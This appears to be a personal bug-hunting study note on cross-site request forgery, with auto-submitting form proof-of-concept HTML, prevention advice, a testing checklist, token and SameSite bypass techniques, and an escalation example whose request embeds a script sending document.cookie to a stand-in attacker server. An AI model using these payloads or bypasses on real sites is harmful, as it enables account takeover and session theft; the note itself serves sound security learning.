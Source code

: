 ### what && how?
>*Cross-site request forgery* (CSRF) is a client side technique used to trick users to send state change HTTP requests.
>Attackers achieve this by using HTML pages that have auto submit form

### basic POC
```html
<html> 
<body onload=document.getElementById('csrf').submit()> 
	<form id='csrf' action="https://vulnsite.com/endpoint" method="POST" > 
		<input value="attacker@portswiger.com" type="email" name="email" hidden> 
		<button class="button" type="submit" hidden> Update email </button> 
	</form> 
</body> </html>
---------or
<html>
	<form id='csrf' action="https://vulnsite.com/endpoint" method="POST" > 
		<input value="attacker@portswiger.com" type="email" name="email" hidden> 
		<button class="button" type="submit" hidden> Update email </button> 
	</form> 
<script>document.getElementById("csrf-form").submit();</script>
</html>
```

### prevention
- csrf token: application sent a random token with it's HTML response for a GET state change request, the browsers send this token back with the request, then the app validate it    
- cookie `SameSite` flag 
	1. **`SameSite=Strict`**: This value restricts the cookie from being sent in cross-origin requests, which provides the highest level of security and privacy. The cookie will only be sent in requests originating from the same site where it was set.
	2. **`SameSite=Lax`**: This value allows cookies to be sent in certain cross-origin requests, primarily when the request is a top-level navigation (like clicking on a link) or when making a safe HTTP method (such as GET). This offers a balance between security and usability.
	3. **`SameSite=None`**: This value allows the cookie to be sent in cross-origin requests
	> Chrome and a few other browsers made `SameSite=Lax` the default cookie setting if it’s not explicitly set by the web application
	> for firefox You can enable it by going to about:config and setting `network.cookie.sameSite.laxByDefault` to true
	
	> when browser not sent the cookies with requests our attack will fail cuz application not make the change on victim behalf 
### hut for it 
- [ ] Spot State-Changing Actions, such sending tweets, or modify user settings like change password, mail,... delete mail,.. 
- [ ] Look for a Lack of CSRF Protections, by Intercept above requests looking for any prevention mechanism in place and try to bypass   
- [ ] Confirm the Vulnerability by use above POC or copy&past target html form
- [ ] host your POC and test it yourself

### Bypassing Protections
> the existence of protections doesn’t mean that the protection is comprehensive, well implemented, and impossible to bypass
1. for csrf token
- Exploit [[Clickjacking]]: If the endpoint uses CSRF tokens but the page itself is vulnerable to clickjacking, you’ll be able to achieve the same results as a CSRF attack on the endpoint
- Change the Request Method(from post->GET) and delete token from request, use `<img>`
- Bypass CSRF Tokens Stored on the Server, set csrf_token with null value `csrf_token=`
- Bypass Double-Submit CSRF Tokens using ==CRLF==(response spliting), Double-Submit in body and cookie
- Bypass CSRF Referer Header Check, use `<meta name="referrer" content="no-referrer">` in your POC or set your Referer Header to some thing allowed, use open redirect payloads
- Bypass CSRF Protection by Using [[XSS]] to steal or fetch user's csrf token
2. `SameSite` flag
- Bypass `SameSite=Lax` and state-changing requests with the GET HTTP method, attacker can redirect victim to link using `document.location =`
- or by overwrite request method 
- if site set `SameSite=None` then the browser not overwrite it and we can set request with cookies
more ByPasses from [my portswigger lab solve](https://www.notion.so/mortorky/csrf-7039788effcc442d8200cac05f32849a?pvs=4) 

#### Escalating attack
###### - combine CSRF with self-XSS, you can often turn the self-XSS into stored [[XSS]].
simple poc
```request
POST /change_account_nickname 
Host: finance.example.com 
Cookie: session_cookie=YOUR_SESSION_COOKIE; 
....
account=0&nickname="<script>document.location='http://attacker_server_ip/cookie_stealer.php?c='+document.cookie;" &csrf_token=WRONG_TOKEN
```
The next time a user logs into the account and views their dashboard, they’ll trigger the XSS.
###### [[Account take over (ATO)]] by Using CSRF
account takeover issues occur when a CSRF vulnerability exists in critical functionality, like the code that creates a password, changes the password, changes the email address, or resets the password